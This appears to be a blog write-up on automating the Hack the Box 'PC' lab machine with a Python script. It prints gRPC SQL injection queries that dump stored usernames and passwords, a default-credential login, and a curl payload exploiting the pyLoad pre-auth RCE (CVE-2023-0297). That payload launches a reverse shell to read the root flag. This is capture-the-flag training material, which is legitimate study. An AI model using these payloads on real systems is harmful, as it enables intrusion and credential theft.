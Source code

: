 ```yaml
---
title: "Hack the Box — PC, but automated"
date: 2023-11-06T20:05:09-08:00
draft: false
toc: true
images:
tags:
  - htb
  - automation
---
```

PC is an easy Linux box that has a grpc service and a vulnerable version of an application running on it. While doing this box, I had gone to the forums for a hint, and I saw a comment that said something along the lines of “I wrote a script that can solve this box”. I found this quite intriguing and decided to write a script that could solve the box myself.

_Note 1: This is not a proper write-up of the PC box. There is already an official write-up by the creator of the box which is very thorough and explains all the details of the box. There are many unofficial writeups as well. There’s also ippsec’s video on his channel._

_Note 2: This script only automates the steps that need to be taken to get the flags. It does not automate the looking for the vulnerabilities part. After I completed the box, I automated the steps I took to get the flags._

The complete code for this script can be found on [Github](https://github.com/anuraagbaishya/htb-pc).

## Setup grpc
The box is running a grpc service on port 50051. Therefore, to interact with the service, we need a grpc client. I followed a [tutorial](https://grpc.io/docs/languages/python/basics/) on how to create a grpc client using the grpcio-tools Python library. The first step was to define the service in a .proto file. My service definition is [here](https://github.com/anuraagbaishya/htb-pc/blob/main/SimpleApp.proto). Once the service is defined grpcio-tools can generate the client code for you. You can use a command like this:
```bash
$ python -m grpc_tools.protoc -I../../protos --python_out=. --pyi_out=. --grpc_python_out=. SimpleApp.proto
```

For me, this generated 2 additional files, [`SimpleApp_pb2.py`](https://github.com/anuraagbaishya/htb-pc/blob/main/SimpleApp_pb2.py) and [`SimpleApp_pb2_grpc.py`](https://github.com/anuraagbaishya/htb-pc/blob/main/SimpleApp_pb2_grpc.py) . I will not explain what these files do here, since that itself is a lengthy topic of discussion. If you are curious, the tutorial link I added earlier has a lot of resources to understand grpc and how it works.

Once we have the required files generated, we can connect to the grpc service:
```python
def _setup_grpc(self):
    channel = grpc.insecure_channel(f"{self.host}:{self.grpc_port}")
    stub = pb2_grpc.SimpleAppStub(channel)

    return stub
```
Here `pb2_grpc` contains the client and server classes corresponding to protobuf-defined grpc services.

## SQL Injection in grpc
The grpc service exposes a `getInfoRequest` which takes an id parameter. It then uses the id to make an SQL query. The id parameter is vulnerable to SQL injection. We can exploit it by making a query like:

```python
query = "62 UNION SELECT name FROM sqlite_master where type='table'"
pb2.getInfoRequest(id=query) 
```

Here `pb2` is the protobuf client we will use to interact with the grpc service. The above request will get the tables from `sqlite_master`.


This does not work out of the box, however. It requires an admin token to be sent as metadata. We can obtain the token by sending a `LoginUserRequest`. The username/password is conveniently set to admin/admin.

```python
def _get_token(self):
    user = pb2.LoginUserRequest(username="admin", password="admin")
    _, call = self.stub.LoginUser.with_call(user)
    metadata = call.trailing_metadata()
    token = metadata[0].value[2:-1]

    return token
```

Once I had the token, I could make the `getInfoRequest` request and get the user details. To get the user details, I first got the table name, then the columns in the table, and finally queried all the columns of the table.

```python
def _get_users(self) -> dict:
    print("Getting users")

    query = "62 UNION SELECT name FROM sqlite_master where type='table'"
    table = self._sql_injection_request(query)

    query = f"62 UNION SELECT GROUP_CONCAT(name) FROM pragma_table_info('{table}')"
    cols = self._sql_injection_request(query)

    res = []
    for col in cols.split(","):
        query = f"62 UNION SELECT GROUP_CONCAT({col}) FROM {table}"
        r = self._sql_injection_request(query)
        res.append(r.split(","))

    usernames = res[0]
    passwords = res[1]

    users = []
    for i in range(len(usernames)):
        users.append({"username": usernames[i], "password": passwords[i]})

    print("Users found")
    print(json.dumps(users))

    return users
```

The `_sql_injection_request` function is defined as:

```python
def _sql_injection_request(self, query):
    metadata = (("token", self.token),)
    id_request = pb2.getInfoRequest(id=query)
    r = self.stub.getInfo.with_call(id_request, metadata=metadata)
    return r[0].message
```

## Getting user flag
The user list has a user `sau` , who has SSH access to the machine. The next step is to start an SSH session and read the user flag stored at `/home/sau/user.txt`. This is quite straightforward. I created a simple SSH Client using the `paramiko` library and executed `cat /home/sau/user.txt`:

```python
def exec_command(self, command):
    ssh_stdin, ssh_stdout, ssh_stderr = self.client.exec_command(command)
    return ssh_stdout.read().decode("utf-8")
```

## PyLoad CVE
PyLoad is an open-source download manager. PyLoad versions prior to 0.5.0b3.dev31 are vulnerable to pre-auth RCE (CVE-2023–0297). There are many available exploits for this vulnerability. You can read more about the vulnerability and the exploit [here](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad).

The vulnerability allows us to execute a payload like this:

```bash
curl -i -s -k -X $'POST' \
--data-binary
$'jk=pyimport%20os;os.system(\"bash%20/home/sau/shell.sh\");f=function%20f2()
{};&package=xxx&crypted=AAAA&&passwords=aaaa' \
$'http://localhost:8000/flash/addcrypted2'
```

Here, I am running a script called [`shell.sh`](https://github.com/anuraagbaishya/htb-pc/blob/main/shell.sh) which is just a bash reverse shell.

PyLoad on this box is not available publicly. It can only be accessed from within the box. The official write-up uses SSH tunneling to tunnel from the user’s machine to the box. I chose the alternate option of running the exploit from within the SSH session, using the same `exec_command` function I used to read the user flag.

I used SFTP to transfer the reverse shell to the box:

```python
def transfer_file_from_local(self):
    ftp_client = self.client.open_sftp()
    ftp_client.put("shell.sh", "/home/sau/shell.sh")
```

The last step is to start a reverse shell listener and then read the root flag from within the reverse shell session. For this, I created a simple [socket client](https://github.com/anuraagbaishya/htb-pc/blob/main/revsh.py) which listens for a connection and then performs `cat /root/root.txt`.

I ran both the exploitation script and the socket client as two separate processes using a shell script:

```bash
#! /bin/bash

python auto_exploit.py &
python revsh.py
```

It might (should) be possible to run the exploitation part and socket listener as separate threads of the same process. I tried for a bit, but it didn’t work and I just chose the easy way out.

Running the runner script, I got both the user and root flags:

![Flags](/flags.webp)


## Closing Thoughts
This experiment was a lot of fun. After completing this box, I pondered over what makes a box scriptable. I think the correct answer is — all boxes are scriptable if one is willing to persevere. The more practical questions what makes a box easy to script. I have come up with these criteria:

* Requires little to no UI interaction like clicking buttons, filing forms, etc that cannot be replicated using direct web / API calls. It might be possible to replicate these functionalities using selenium or similar — but that increases the complexity of the script.
* Related to the above — requires performing operations using some software running on one of the open ports or the machine. These might be web UIs or even CLI programs installed in the box.
* Does not have a lot of steps / does not require running a lot of tools. The time required to create the script will be directly proportionate to the number of steps.

This was the first (and only) box I have tried to script. I have done a few other boxes after this one, but I did not spend time trying to script them because of one of the above reasons. As I complete more boxes, I will continue to assess if the box is easy to script. If yes, great! If not, it may have to do with one of the above reasons, or I might have some other new reasons.

That’s it from me. This is my 2023 contribution to my blog. I will not promise anything else here till a really long time has passed since this publication. I usually don’t work on technical things during my free time. Most (if not all) of the security work I do is by virtue of my employment. Therefore, there usually is not much for me to share.

Thanks for reading!
